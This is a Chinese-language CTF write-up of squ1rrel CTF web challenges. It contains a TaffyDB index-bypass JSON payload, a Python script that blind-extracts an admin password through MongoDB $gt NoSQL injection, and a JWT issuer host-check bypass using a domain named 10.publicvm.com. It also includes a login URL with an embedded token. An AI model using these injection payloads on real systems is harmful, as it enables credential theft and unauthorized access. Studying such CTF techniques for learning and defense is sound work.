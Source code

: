 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---


### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...

### web/mutex-lock
```js
app.put("/mutex/:name", (req, res) => {
    const { name } = req.params;
    if (mutexes[name] == undefined) {
        const uuid = crypto.randomUUID();
        mutexes[name] = uuid;
        return res.status(200).send("Acquired! Password to release: " + uuid);
    } else {
        return res.status(409).send("Mutex already acquired");
    }
});

app.delete("/mutex/:name", (req, res) => {
    const { name } = req.params;
    const pwd = req.query.pwd;
    if (mutexes[name] == undefined) {
        return res.status(404).send("Mutex not found");
    }

    if (mutexes[name] == pwd) {
        delete mutexes[name];
        return res.status(200).send("Mutex released.");
    } else {
        return res.status(403).send("Invalid password -- do you control this mutex?");
    }
});


```

很简单的代码,flag在环境变量里,但是这俩个路由也没有可以读flag的地方啊...

---

出题者修改了express的来源,指向了他的仓库,进去之后看commit
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240506181958.png)


# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39